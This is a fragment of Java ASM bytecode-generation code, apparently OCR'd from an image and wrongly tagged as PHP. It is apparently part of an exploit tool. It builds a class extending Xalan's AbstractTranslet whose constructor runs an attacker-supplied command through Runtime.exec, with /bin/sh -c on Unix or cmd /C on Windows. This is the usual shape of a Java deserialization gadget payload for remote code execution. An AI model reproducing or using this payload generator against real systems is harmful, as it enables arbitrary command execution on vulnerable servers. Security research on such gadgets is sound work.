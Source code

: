 ```php
        mv.visitLabel(l3);
        mv.visitLineNumber(19, l3);
        mv.visitVarInsn(ALOAD, 0);
        mv.visitMethodInsn(INVOKESPECIAL, "com/sun/org/apache/xalan/internal/xsltc/runtime/AbstractTranslet", "<init>", "()V", false);
        Label l4 = new Label();
        mv.visitLabel(l4);
        mv.visitLineNumber(21, l4);
        mv.visitFieldInsn(GETSTATIC, "java/io/File", "separator", "Ljava/lang/String;");
        mv.visitLdcInsn("/");
        mv.visitMethodInsn(INVOKEVIRTUAL, "java/lang/String", "equals", "(Ljava/lang/Object;)Z", false);
        Label l5 = new Label();
        mv.visitJumpInsn(IFEQ, l5);
        Label l6 = new Label();
        mv.visitLabel(l6);
        mv.visitLineNumber(22, l6);
        mv.visitInsn(ICONST_3);
        mv.visitTypeInsn(ANEWARRAY, "java/lang/String");
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_0);
        mv.visitLdcInsn("/bin/sh");
        mv.visitInsn(AASTORE);
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_1);
        mv.visitLdcInsn("-c");
        mv.visitInsn(AASTORE);
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_2);
        mv.visitFieldInsn(GETSTATIC, className, "cmd", "Ljava/lang/String;");
        mv.visitInsn(AASTORE);
        mv.visitVarInsn(ASTORE, 1);
        Label l7 = new Label();
        mv.visitLabel(l7);
        mv.visitJumpInsn(GOTO, l0);
        mv.visitLabel(l5);
        mv.visitLineNumber(24, l5);
        mv.visitFrame(F_FULL, 1, new Object[]{className}, 0, new Object[]{});
        mv.visitInsn(ICONST_3);
        mv.visitTypeInsn(ANEWARRAY, "java/lang/String");
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_0);
        mv.visitLdcInsn("cmd");
        mv.visitInsn(AASTORE);
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_1);
        mv.visitLdcInsn("/C");
        mv.visitInsn(AASTORE);
        mv.visitInsn(DUP);
        mv.visitInsn(ICONST_2);
        mv.visitFieldInsn(GETSTATIC, className, "cmd", "Ljava/lang/String;");
        mv.visitInsn(AASTORE);
        mv.visitVarInsn(ASTORE, 1);
        mv.visitLabel(l0);
        mv.visitLineNumber(28, l0);
        mv.visitFrame(F_APPEND, 1, new Object[]{"[Ljava/lang/String;"}, 0, null);
        mv.visitMethodInsn(INVOKESTATIC, "java/lang/Runtime", "getRuntime", "()Ljava/lang/Runtime;", false);
        mv.visitVarInsn(ALOAD, 1);
        mv.visitMethodInsn(INVOKEVIRTUAL, "java/lang/Runtime", "exec", "([Ljava/lang/String;)Ljava/lang/Process;", false);
        mv.visitInsn(POP);
        mv.visitLabel(l1);
```